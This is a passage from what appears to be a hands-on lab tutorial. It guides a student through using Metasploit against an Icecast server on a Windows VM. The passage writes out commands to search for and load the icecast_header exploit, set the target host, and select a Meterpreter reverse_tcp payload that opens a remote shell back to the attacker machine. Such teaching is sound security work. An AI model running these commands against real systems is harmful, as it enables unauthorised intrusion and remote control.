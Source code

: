 Notice that Icecast is running on port `8000`. Could there be an exploit for
Icecast built into Metasploit? Let's check!


## Search for a vulnerability in the msf database, arm it, select a payload, and exploit

4.  From the `msf >` prompt, try:

        search name:icecast

5.  In the search output, you should see an exploit related to `icecast` called `exploit/windows/http/icecast_header`. Use it:

        use exploit/windows/http/icecast_header

    <div class='alert alert-info'><strong>Note:</strong> You can press the tab key within Metasploit to complete a module or command name you are typing. This makes entering commands in Metasploit faster. If you push the tab key twice it will show you all possible options directory you are in.</div>

6.	Your msfconsole prompt should now look like this:

        msf exploit(icecast_header) >

    Indicating that the `icecast_header` module is loaded.

7.	To get more information about this exploit module, type `info`.

    This module has been rated “great,” meaning it is very effective and reliable.

    Besides providing a better description, the `info` command shows the targets
    that the module is effective against, as well as options to set.

8.	To show available options, type `show options`.

    Notice that some options are "required."

9.	Let’s set the required options.

    First, we’ll set the remote host:

        set rhost <IP address of your Windows VM>

    Type `show options` again to verify that the RHOST variable has been set.

10.	Next, let’s look at available payloads for this exploit:

        show payloads

11.	We have a lot of payload options for this module. We’ll use one of the most
    popular and reliable payloads -- a Meterpreter shell. Type:

        set payload windows/meterpreter/reverse_tcp

    Meterpreter is a shell, like Bash, except it is malware.

    This specific
    payload will open a _reverse TCP connection_, **from** the exploited Windows
    VM back **to** the Kali VM, effectively punching through most external-facing
    firewalls. Often, firewalls defend more fiercely what comes in than what goes
    out. This is why it is important that you are able to reach Kali from Windows,
    and Windows from Kali.
